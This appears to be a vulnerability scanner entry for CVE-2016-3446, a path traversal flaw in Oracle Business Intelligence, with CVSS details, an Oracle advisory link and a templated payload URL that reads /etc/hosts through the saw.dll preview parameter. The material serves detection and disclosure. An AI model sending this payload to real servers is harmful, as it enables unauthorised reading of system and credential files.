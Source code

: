 Oracle Bussiness Intelligence Path Traversal Vulnerability

CVE: CVE-2016-3446
Description: Oracle Business Intelligence Enterprise Edition component in Oracle Fusion Middleware 11.1.1.7.0 and 11.1.1.9.0 is affected by Path Traversal Vulnerability.
CWE: CWE-22, CWE-35
CVSS: 3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L - 8.3
Reference:

https://www.oracle.com/security-alerts/cpujul2016.html

Payload:

https://{{Hostname}}/analytics/saw.dll?getPreviewImage&previewFilePath=/etc/hosts
